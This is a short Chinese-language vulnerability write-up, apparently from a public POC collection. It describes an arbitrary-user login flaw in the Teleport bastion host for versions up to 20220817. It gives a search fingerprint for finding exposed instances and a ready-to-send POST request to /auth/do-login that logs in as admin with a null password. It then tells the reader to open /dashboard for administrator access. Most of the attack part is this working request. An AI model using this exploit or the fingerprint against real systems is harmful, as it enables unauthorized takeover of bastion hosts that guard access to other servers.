



# Teleport堡垒机 do-login 任意用户登录漏洞

## 漏洞描述

Teleport堡垒机存在任意用户登录漏洞，攻击者通过构造特殊的请求包可以登录堡垒机获取其他系统权限

## 漏洞影响

```
Teleport Version <= 20220817
```

## 网络测绘

```
app="TELEPORT堡垒机"
```

## 漏洞复现

登录页面



验证POC， captcha参数为验证码

```
POST /auth/do-login

args={"type":2,"username":"admin","password":null,"captcha":"ykex","oath":"","remember":false}
```



code 返回 0 即为成功，再访问 /dashboard 获取管理员权限

